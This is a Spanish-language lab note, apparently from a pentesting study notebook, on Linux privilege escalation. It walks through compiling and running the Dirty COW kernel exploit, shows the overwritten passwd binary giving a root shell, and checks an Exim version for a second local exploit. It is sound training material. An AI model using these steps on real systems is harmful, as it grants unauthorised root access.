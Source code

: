
Ejercicios realizados en la [[Maquina - LPEP]] , parte de [[Postexplotacion]]

## Escalada por exploits del Kernel

En cuanto a escalada de privilegios, un ejemplo es usar exploits de kernel. Por ejemplo en este caso dirtycow (un fallo en el kernel que permite a un usuario no privilegiado modificar ficheros a los que solo podria acceder en modo lectura)

Ejemplo:

En este caso tenemos dirtycow en /tools:

Podemos compilarlo y ejecutarlo.

``` bash
gcc -pthread c0w.c -o c0 
./c0
```

Tras un cierto tiempo recuperaremos la terminal.

Una señal de funcionamiento del exploit es el fichero .bak en tmp:

``` bash
user@debian:~/tools/dirtycow$ ls -lhF /tmp/
total 1.8M
-rw-r--r-- 1 root root 1.7M Mar 18 16:02 backup.tar.gz
-rwxr-xr-x 1 user user  43K Mar 18 15:59 bak*
-rw-r--r-- 1 root root   29 Mar 18 16:02 useless
-rw-r--r-- 1 root root   29 Mar 18 16:02 useless2
user@debian:~/tools/dirtycow$ 
```

Lo que hemos hecho ha sido machacar passwd con otro archivo, y ahora en vez de servir para cambiar la contraseña instancia una shell como el usuario root:

``` bash
user@debian:~/tools/dirtycow$ /usr/bin/passwd
root@debian:/home/user/tools/dirtycow# id
uid=0(root) gid=1000(user) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
```

En el fichero .bak mencionado antes esta el binario passwd bueno.

Podemos revertir el binario a su estado original mediante:

``` bash
cp /tmp/bak /usr/bin/passwd
rm -rf /tmp/bak
```

Otro exploit por ejemplo es el de exim4 (el servidor SMTP del puerto 25) que se puede utilizar en la version 4.86.2 SI TIENE el bit SETUID root Y SI se instalo a traves de perl_startup.

Podemos comprobarlo:

``` bash
user@debian:~$ exim -bV
Exim version 4.84 #3 built 13-May-2017 01:45:35
Copyright (c) University of Cambridge, 1995 - 2014
(c) The Exim Maintainers and contributors in ACKNOWLEDGMENTS file, 2007 - 2014
Probably GDBM (native mode)
Support for: crypteq iconv() Perl DKIM PRDR OCSP
```

